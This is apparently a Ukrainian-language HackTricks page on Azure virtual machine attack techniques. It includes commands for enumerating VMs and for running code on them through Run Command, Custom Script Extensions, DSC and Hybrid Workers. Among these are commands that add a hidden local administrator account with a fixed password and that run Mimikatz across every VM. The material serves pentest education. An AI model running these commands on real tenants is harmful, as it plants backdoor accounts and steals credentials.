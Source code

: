 # Az - Віртуальні машини та мережа

<details>

<summary><strong>Вивчайте хакінг AWS від нуля до героя з</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Інші способи підтримки HackTricks:

* Якщо ви хочете побачити **рекламу вашої компанії на HackTricks** або **завантажити HackTricks у PDF** Перевірте [**ПЛАНИ ПІДПИСКИ**](https://github.com/sponsors/carlospolop)!
* Отримайте [**офіційний PEASS & HackTricks мерч**](https://peass.creator-spring.com)
* Відкрийте [**Сім'ю PEASS**](https://opensea.io/collection/the-peass-family), нашу колекцію ексклюзивних [**NFT**](https://opensea.io/collection/the-peass-family)
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Поділіться своїми хакінг-трюками, надсилайте PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв.

</details>

## Основна інформація

[З документації:](https://learn.microsoft.com/en-us/azure/virtual-machines/overview) Віртуальні машини Azure - це один із кількох типів [обчислювальних ресурсів на вимогу та масштабованих](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree), які пропонує Azure. Зазвичай ви обираєте віртуальну машину, коли вам потрібно більше контролю над обчислювальним середовищем, ніж це пропонують інші варіанти. Ця стаття надає вам інформацію про те, що варто врахувати перед створенням віртуальної машини, як її створити та як нею керувати.

## Інформація про мережу Azure

Мережі Azure містять **різні сутності та способи конфігурації.** Ви можете знайти короткі **описи,** **приклади** та **команди переліку** різних сутностей мережі Azure в:

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure Bastion

**Azure Bastion** пропонує безпечний, повністю керований доступ RDP (Remote Desktop Protocol) та SSH (Secure Shell) через SSL через портал Azure. Він інтегрований у межах віртуальної мережі Azure, що дозволяє підключення RDP та SSH до ВМ за допомогою приватних IP-адрес, уникнення необхідності публічних IP-адрес. Це робить його безпечнішим, зручнішим альтернативою традиційним методам, що включають призначення публічних IP-адрес та конфігурації правил NSG для доступу до ВМ. Розробники та ІТ-персонал можуть безпечно отримувати доступ до ВМ з порталу Azure за допомогою веб-браузерів, що спрощує процес для середовищ розробки та тестування.

Для переліку всіх хостів Azure Bastion у вашій підписці ви можете використовувати наступну команду:

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
{% endcode %}

## Перелік віртуальних машин
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **Виконання команд у віртуальній машині**

### **AAD Вхід у ВМ**

Можливо надати доступ користувачам, які автентифіковані через AzureAD. Наприклад, спробуйте отримати доступ до **linux VM**: `ssh username@azure-corp.com@1.1.1.1` (важливо **використовувати електронну пошту** з azurecorp, яку використовували при спробі входу) можливо отримати помилку:
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

Просто **слідуйте цим інструкціям**, перейдіть на [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) та вкажіть код, використовуйте електронну адресу та пароль як облікові дані, і ви зможете підключитися через SSH (якщо у цього користувача є достатньо дозволів для цього: роль `Вхід адміністратора віртуальної машини` або `Вхід користувача віртуальної машини`).

### **Виконати команду**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **Виконання розширення власного скрипта**

Розширення віртуальних машин (VM) Azure - це **невеликі додатки**, які забезпечують конфігурацію після розгортання та автоматизацію **завдань** на **VM Azure**. Наприклад, якщо віртуальній машині потрібна установка програмного забезпечення, антивірусний захист або можливість виконання скрипта всередині неї, ви можете використовувати розширення VM.

Отже, якщо у вас є доступ для запису, ви можете виконати довільний код:
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### Бажаний стан конфігурації (DSC)

Бажаний стан конфігурації (DSC) - це інструмент PowerShell, схожий на Ansible, який використовується для налаштування хоста через код. DSC інтегрується з Azure, дозволяючи завантажувати конкретні файли конфігурації. Ці файли повинні відповідати строгому синтаксису. Зокрема, розширення DSC в Azure може виконувати команди з файлів, які відповідають певним критеріям форматування, навіть якщо синтаксис не відповідає стандартам DSC, як показано на наданій фігурі.

Виконання цих команд спрощується за допомогою функції [**`Publish-AzVMDscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0) в Az PowerShell. Вимоги включають файл **.PS1** з визначеною функцією та файл повинен бути запакований у файл **.zip**. Навіть якщо синтаксис може бути невірним для DSC, код все одно буде виконуватися. Однак розширення позначатиме статус виконання як "помилка", і вивід від команди не буде видно через те, що статус буде перезаписаний повідомленням про помилку.

### Визначення додатків для ВМ

Визначення додатків для ВМ дозволяють повторно розгортати версіоновані додатки на віртуальну машину Azure. Цей ресурс підтримує розгортання та оновлення додатків на ВМ. Для налаштування цього необхідно виконати кілька кроків, включаючи команди, такі як **`New-AzGalleryApplication`** та **`New-AzGalleryApplicationVersion`** в Az PowerShell.

Виконання додатків або команд через цей метод включає **"VMAppExtension"**, який встановлюється автоматично, коли додаток застосовується до ВМ. Розширення отримує файл з вказаного URI та називає його точно так само, як додаток, без розширення. Для правильного виконання файлу поле "ManageActions" у виклику REST API повинно бути налаштоване на перейменування файлу з відповідним розширенням. Налаштування цього методу, якщо воно завершено, буде схоже на структуру, показану на наданій фігурі.

Однак цей метод виконання є відносно повільним, займаючи близько 3-4 хвилин для виконання додатка або команди. Файли, пов'язані з цим процесом, зберігаються в конкретних каталогах (`C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\` для копіювання додатка та `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\` для статусу виконання).

Обидва методи надають унікальні способи виконання команд та розгортання додатків в середовищах Azure, кожен зі своїм набором вимог, кроків та врахувань.

### Групи гібридних робочих станцій (HWGs) в Azure

[**Групи гібридних робочих станцій (HWGs)**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker) - це функція в Azure, яка дозволяє виконувати Runbooks, налаштовані в обліковому записі автоматизації, на віртуальній машині Azure (VM), яка є частиною визначеної HWG. Це виконання спрощується за допомогою розширення, встановленого на ВМ, яке розгортає код Runbook на ВМ. Важливим аспектом цього процесу є те, що фактичні облікові дані не враховуються при виконанні, оскільки код виконується з підвищеними привілеями, зокрема як **SYSTEM** або root, як показано на наданій фігурі.

Важливою деталлю для тих, хто використовує віртуальні машини Windows 10, є необхідність вказати версію PowerShell для Runbook. Вона повинна бути встановлена для запуску як версія PowerShell 5.1 замість 7.1. Ця вимога випливає з того, що PowerShell 7.1 не встановлюється за замовчуванням на цих ВМ, що може призвести до невдачі у виконанні скрипта, якщо вказана версія 7.1.

Ця функція Azure пропонує надійний метод автоматизації та управління завданнями в гібридних середовищах, дозволяючи централізоване управління та виконання завдань на віртуальних машинах Azure.


## Посилання

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

<details>

<summary><strong>Вивчайте хакінг AWS від нуля до героя з</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Інші способи підтримки HackTricks:

* Якщо ви хочете побачити **рекламу вашої компанії в HackTricks** або **завантажити HackTricks у PDF**, перевірте [**ПЛАНИ ПІДПИСКИ**](https://github.com/sponsors/carlospolop)!
* Отримайте [**офіційний PEASS & HackTricks мерч**](https://peass.creator-spring.com)
* Дізнайтеся про [**Сім'ю PEASS**](https://opensea.io/collection/the-peass-family), нашу колекцію ексклюзивних [**NFT**](https://opensea.io/collection/the-peass-family)
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Поділіться своїми хакінговими трюками, надсилайте PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github репозиторіїв.

</details>
